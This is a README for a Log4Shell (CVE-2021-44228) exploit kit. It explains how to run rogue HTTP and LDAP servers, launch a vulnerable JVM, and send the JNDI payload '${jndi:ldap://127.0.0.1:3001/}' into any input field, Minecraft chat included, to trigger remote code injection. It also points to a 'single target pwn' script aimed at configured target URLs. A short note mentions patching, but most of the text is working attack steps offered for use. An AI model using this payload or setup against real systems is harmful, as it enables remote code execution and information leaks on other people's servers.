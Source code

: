 # log4j2-prosecutor

## Motivation
<p>This fundamental vulnerability was reported by [CVE-2018-3149](https://nvd.nist.gov/vuln/detail/CVE-2018-3149) and patched by [this article. (8u121 Release Notes)](https://www.oracle.com/java/technologies/javase/8u121-relnotes.html)</p>
<p>However, the logging library for java called log4j2 had (JNDILookup)[CVE-2021-44228](https://github.com/apache/logging-log4j2/blob/20f9a97dbe5928c3b5077bcdd2a22ac92e941655/log4j-core/src/main/java/org/apache/logging/log4j/core/lookup/JndiLookup.java), which allowed access to protocols such as LDAP, which allowed code injection in older java versions.</p>
<p>Patched versions of java can prevent code injection, but `JNDILookup` makes request to ldap server, which can lead to IP leaks.</p>
<p>The solution is to update **Java** and **log4j2** versions.</p>

## Running
0. Install requirements
```
cd http-server && npm install && cd ../ldap-server && npm install
```
1. run `http-server` and `ldap-server` both
```
cd http-server && node index.js &
cd ldap-server && node index.js
```
2. Compile Main.java
```bash
# This will generate Main.java - required to code injection .
# OSx
./java-single-compile <Main.java>
# Linux 
javac <Main.java>
```
3. Start jvm with parameters
```bash
# You can still use log4j-client in repo for internal testing.
cd log4j-client &&\
		gradle jar &&\
		java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar build/libs/log4j-client-1.0-SNAPSHOT.jar
# Or run other application, com.sun.jndi.ldap.object.trustURLCodebase=true required for code injection, otherwise it will only request to ldap server.
java -Dcom.sun.jndi.ldap.object.trustURLCodebase=true -jar <javafile.jar>
```
4. Send payload to any parameters as the payload
(In minecraft, just chatting this will work if exploit's working.)
```
${jndi:ldap://127.0.0.1:3001/}
```
5. cleanup
```
NODEP=`pgrep node`
for id in $NODEP; do
    kill $id
done
```

## Scripts
```
# Single target pwn
# Edit exploit-configs.txt with url and params
cd scripts/single-pwn && python3 __main__.py
```

## References
- https://github.com/apache/logging-log4j2/pull/608
- https://www.lunasec.io/docs/blog/log4j-zero-day/
- https://github.com/NCSC-NL/log4shell
- https://github.com/ilsubyeega/log4j2-exploits/
- https://raw.githubusercontent.com/ferderplays/Log4j_exploit/main/Exploit.java

## License [GPL3]
See License in LICENSE
